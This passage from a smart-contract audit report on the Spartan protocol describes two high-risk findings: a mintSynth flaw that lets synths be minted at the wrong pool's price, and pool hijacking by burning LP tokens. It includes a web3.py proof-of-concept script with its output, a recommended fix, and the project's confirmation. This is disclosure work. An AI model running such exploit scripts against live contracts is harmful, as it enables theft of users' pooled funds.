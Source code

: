 [Pool's mintSynth logic](https://github.com/code-423n4/2021-07-spartan/blob/main/contracts/Pool.sol#L229-L242), [Synth's mintSynth logic](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Synth.sol#L165-L171), and [Synth's authorization logic](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Pool.sol#L229-L242).


The price of the synthetics to be mint is calculated in `Pool` based on the AMM price of the current Pool

Here's a web3.py script of minting arbitrary `Synth` in a pool.
For simplicity, two pools are set with the assumption that link is 10x expensive than dai.

```python
sparta_amount = 100 * 10**18
initail_link_synth = link_synth.functions.balanceOf(user).call()
base.functions.transfer(link_pool.address, sparta_amount).transact({'from': user})
link_pool.functions.mintSynth(link_synth.address, user).transact({'from': user})
after_link_synth = link_synth.functions.balanceOf(user).call()

print('get link synth amount from link pool:', after_link_synth - initail_link_synth)

sparta_amount = 100 * 10**18
initail_link_synth = link_synth.functions.balanceOf(user).call()
base.functions.transfer(dai_pool.address, sparta_amount).transact({'from': user})
dai_pool.functions.mintSynth(link_synth.address, user).transact({'from': user})
after_link_synth = link_synth.functions.balanceOf(user).call()

print('get link synth amount from dai pool:', after_link_synth - initail_link_synth)

```

The log of the above script
```solidity
get link synth amount from link pool: 97078046905036524413
get link synth amount from dai pool: 970780469050365244136
```
Recommend Checking the provided synth's underlying token in `mintSynth`
```solidity
require(iSYNTH(synthOut).LayerONE() == TOKEN, "invalid synth");
```

**[verifyfirst (Spartan) confirmed](https://github.com/code-423n4/2021-07-spartan-findings/issues/20#issuecomment-883837548):**
 > We agree and appreciate this finding being valid high risk issue.

## [[H-10] Hijack token pool by burning liquidity token](https://github.com/code-423n4/2021-07-spartan-findings/issues/38)
_Submitted by jonah1005_

`Pool` allows users to burn lp tokens without withdrawing the tokens. This allows the hacker to mutate the pools' rate to a point that no one can get any lp token anymore (even if depositing token).

The liquidity tokens are calculated at `Utils:calcLiquidityUnits`
```solidity
// units = ((P (t B + T b))/(2 T B)) * slipAdjustment
// P * (part1 + part2) / (part3) * slipAdjustment
uint slipAdjustment = getSlipAdustment(b, B, t, T);
uint part1 = t*(B);
uint part2 = T*(b);
uint part3 = T*(B)*(2);
uint _units = (P * (part1 + (part2))) / (part3);
return _units * slipAdjustment / one;  // Divide by 10**18
```
where `P` stands for `totalSupply` of current Pool. If `P` is too small (e.g, 1) then all the units would be rounding to 0.
